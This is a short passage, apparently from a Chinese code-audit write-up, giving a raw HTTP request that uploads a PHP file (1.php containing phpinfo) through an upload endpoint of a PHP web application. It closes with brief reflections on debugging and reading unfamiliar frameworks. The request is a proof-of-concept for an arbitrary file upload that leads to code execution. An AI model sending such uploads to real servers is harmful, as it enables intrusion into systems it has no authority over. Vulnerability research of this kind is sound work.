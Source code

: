 ```bash
POST /server/index.php/start?md=upload&uid=1&notify=http://127.0.0.1:8877/&sign=88c03d47ed5a1df9ed7ed9e1c1ce8afd HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```

# 总结

1.  多扣代码多调试才行，一步一步来
2.  有些时候框架忘记或者不熟悉还是要多仔细看看才行
